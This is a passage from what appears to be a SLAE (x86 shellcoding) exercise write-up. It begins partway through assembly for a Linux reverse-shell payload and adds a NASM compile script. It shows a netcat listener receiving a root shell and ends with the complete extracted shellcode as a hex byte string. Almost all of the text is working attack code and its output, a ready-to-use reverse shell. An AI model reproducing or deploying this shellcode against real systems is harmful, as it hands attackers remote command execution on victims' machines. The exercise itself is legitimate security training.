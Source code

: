 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;sockaddr_in struct pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to connect() args

    ;; Bring ebx back to sys_call # 3 for connect()
    inc ebx
    int 0x80 ; call sys_connect

    ;; call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
    xor eax, eax
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
\end{verbatim}

When we compile the above shellcode using the compile.sh script below:

\begin{verbatim}
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
\end{verbatim}

\verb,root@blahblah:~/shared/SLAE/slae/exercise2# ./compile.sh reverseshellasm,

Setup a netcat listener with \verb~nc -nlvp 4444~ and run the shellcode using:

\verb,root@blahblah:~/shared/SLAE/slae/exercise1# ./reverseshellasm,

We receive:

\begin{verbatim}
#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37306
id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Excellent! Lets dump the bytes:

\begin{verbatim}
root@funos:~/shared/SLAE/slae/exercise2# objdump -d ./reverseshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|\
tr '\t' ' ' |sed 's/ $//g'|sed 's/ /\\x/g'|\
paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
"\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x01\x01"
"\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89"
"\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0"
"\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
\end{verbatim}
\end{document}
